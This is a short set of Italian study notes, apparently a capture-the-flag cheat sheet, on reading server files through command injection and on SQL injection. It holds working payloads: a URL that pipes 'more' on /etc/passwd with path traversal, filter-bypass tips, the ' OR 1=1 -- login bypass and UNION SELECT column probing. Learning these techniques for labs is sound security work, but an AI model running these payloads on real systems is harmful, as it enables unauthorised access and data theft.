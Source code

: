 # Lettura file dal server =====================================================================
- comandi simili a cat: less, more, head, tail, sed '', tac.

- se disabilitato ";", usa pipe |

- ricorda nella get %20 per mettere spazi.

- se dà problemi di path traversal, inizia il path con /./.. etc

Esempio command injection: http://localhost:8000/?domain=www.ulisse.unibo.it|%20more%20../../../../../../etc/passwd%20
- se dà problemi perchè "file non può finire con x", prova mettendo *, oppure %20 per aggiungere uno spazio alla fine


# SQL Injection ================================================================================
## Simple SQLI ---------------------------------------------------------------------------------
La SQL Injection è una vulnerabilità di sicurezza che consente ad un attaccante di interferire con le query SQL che un'applicazione invia al suo database. Questo può permettere all'attaccante di visualizzare dati a cui normalmente NON dovrebbe avere accesso, oppure eseguire comandi arbitrari sul database.

-> 1. Tornare un Risultato "VERO"-----------------
Un attacco SQL Injection può sfruttare l'input dell'utente per manipolare una query SQL in modo che il risultato sia sempre vero.

-> Esempio di Query Vulnerabile:
SELECT * FROM users WHERE username = 'user' AND password = 'password';

Se l'input dell'utente per il campo username è:
' OR 1=1 --

La query diventa:
SELECT * FROM users WHERE username = '' OR 1=1 --' AND password = 'password';
	•	' OR 1=1 -- forza la condizione ad essere sempre vera.
	•	-- commenta il resto della query, ignorando la verifica della password.

## Union Based SQLI -----------------------------------------------------------------------------
Passi per Sfruttare UNION Based Injection:

	1 Scoprire il Numero di Colonne: Inietta diverse query con NULL per determinare il numero di colonne nella query originale.
		' UNION SELECT NULL #
	Se dà errore, si deve provare con più colonne:		' UNION SELECT NULL, NULL, NULL #
	Quando NON si verifica errore, si è trovato il numero di colonne.

	2 Sfruttare information_schema: information_schema è uno schema SQL standard che contiene informazioni sulla struttura del database.
